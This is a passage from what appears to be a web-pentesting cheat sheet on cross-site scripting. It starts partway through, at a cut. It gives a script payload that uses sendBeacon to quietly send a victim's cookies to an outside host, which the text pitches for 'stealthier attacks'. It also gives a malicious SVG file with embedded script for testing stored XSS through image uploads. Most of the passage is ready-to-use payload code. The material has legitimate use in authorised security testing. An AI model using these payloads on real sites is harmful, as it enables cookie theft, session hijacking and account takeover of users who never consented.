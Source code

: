 * <mark style="color:purple;">Use when you want to send cookies</mark> <mark style="color:orange;">**`asynchronously`**</mark> <mark style="color:purple;">in the background using the</mark> <mark style="color:orange;">**`sendBeacon`**</mark> <mark style="color:purple;">API, typically for stealthier attacks.</mark>

{% code overflow="wrap" %}
```html
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
{% endcode %}
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:purple;">`Stored XSS`</mark>

* <mark style="color:purple;">Create a malicious</mark> <mark style="color:orange;">**`SVG`**</mark> <mark style="color:purple;">file to test image uploading features:</mark>

{% code overflow="wrap" %}
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("Hello World");
  </script>
</svg>
```
{% endcode %}
{% endhint %}
